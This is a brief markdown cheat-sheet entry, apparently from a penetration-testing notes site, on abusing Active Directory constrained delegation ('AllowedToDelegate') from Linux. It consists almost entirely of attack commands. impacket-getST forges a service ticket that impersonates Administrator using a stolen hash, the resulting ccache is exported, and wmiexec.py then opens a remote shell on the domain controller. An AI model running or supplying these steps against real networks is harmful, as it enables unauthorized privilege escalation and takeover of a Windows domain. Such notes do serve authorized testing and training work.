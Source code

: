 ```yaml
---
title: "AllowedToDelegate"
date: 2024-7-23
tags: ["AllowedToDelegate", "gMSADumper", "active driectory", "ad", "Windows", "privesc"]
---
```


---
### Privesc #1: Forge a Ticket (From Linux)

```bash
# For example, spn: www/dc.example.com (Check Bloodhound)
sudo ntpdate -s <DC> && impacket-getST -dc-ip <DC_IP> -spn www/dc.example.com -hashes :<HASH> -impersonate Administrator <DOMAIN>/<USER>
```

```bash
# Export ccache
export KRB5CCNAME=Administrator.ccache
```

```bash
# Remote
sudo ntpdate -s <DC> && wmiexec.py -k -no-pass administrator@dc.example.com
```

<small>*Note: impacket-wmiexec may not work*</small>

<br>
